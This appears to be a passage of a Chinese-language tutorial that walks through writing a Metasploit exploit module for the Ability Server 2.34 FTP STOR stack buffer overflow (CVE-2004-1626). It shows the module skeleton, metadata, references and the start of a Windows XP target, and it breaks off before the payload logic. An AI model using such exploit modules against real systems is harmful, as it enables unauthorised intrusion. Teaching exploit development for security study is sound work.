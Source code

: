 +   利用 FTP 服务器

+   为模块设置一个等级

```
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

### Module Type ###
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking

include Msf::Exploit::Remote::Ftp 
```

+   描述该模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   选择一个默认的有效载荷

+   设置坏字符。

+   设置披露日期

+   目标及其返回地址（EIP 偏移）

+   设置目标 IP、端口的选项。如果需要，还有用户名和密码。

```
 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'        => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
```